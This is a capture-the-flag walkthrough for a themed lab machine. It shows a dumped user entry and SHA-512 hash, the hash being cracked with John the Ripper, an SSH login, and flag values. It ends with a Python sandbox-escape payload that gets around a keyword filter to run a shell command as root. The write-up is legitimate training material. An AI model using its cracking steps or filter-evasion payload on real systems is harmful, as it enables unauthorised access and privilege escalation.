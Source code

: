 <img width="1574" height="892" alt="Screenshot (35)" src="https://github.com/user-attachments/assets/5730bc79-3e3f-4125-8e69-37557a2014c9" />

<img width="1585" height="899" alt="Screenshot (36)" src="https://github.com/user-attachments/assets/72f523a6-87f3-4c40-9265-ffe83665b900" />

<img width="1582" height="893" alt="Screenshot (37)" src="https://github.com/user-attachments/assets/c79bf5a0-4ec9-4b6b-99e6-6e1d369e1e31" />


Extracted Information
From the dumped file, I found a valid user entry:

kamishiro:x:1001:1001:/home/kamishiro:/bin/bash
Alongside that, there was a SHA-512 password hash:

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

✅ What is rize username ? kamishiro 

<img width="1482" height="867" alt="Screenshot (39)" src="https://github.com/user-attachments/assets/d4bdb045-0701-4b01-9e6e-31a02b0b82f7" />

Saved the hash:
bash
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > kamishiro.hash

Cracked with John:
bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt kamishiro.hash

> ✅ **Rize's Password:** `password123`

SSH'd in:
bash
ssh kamishiro@10.10.131.242

Found and grabbed user.txt:
e6215e25c0783eb4279693d9f073594a

## Task 5 - Fight Jason
After gaining SSH access as kamishiro, I was able to read the user flag located in the home directory:
bash
cat /home/kamishiro/user.txt

✅ user.txt: e6215e25c0783eb4279693d9f073594a
From there, I checked sudo permissions and discovered I could run a Python jail script as root:
bash
sudo /usr/bin/python3 /home/kamishiro/jail.py

<img width="1484" height="285" alt="Screenshot (42)" src="https://github.com/user-attachments/assets/62d7af95-6ce2-4c02-8449-001a701e22b3" />


After attempting several bypass methods, I used an evasion payload to bypass the keyword filter and execute:
python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
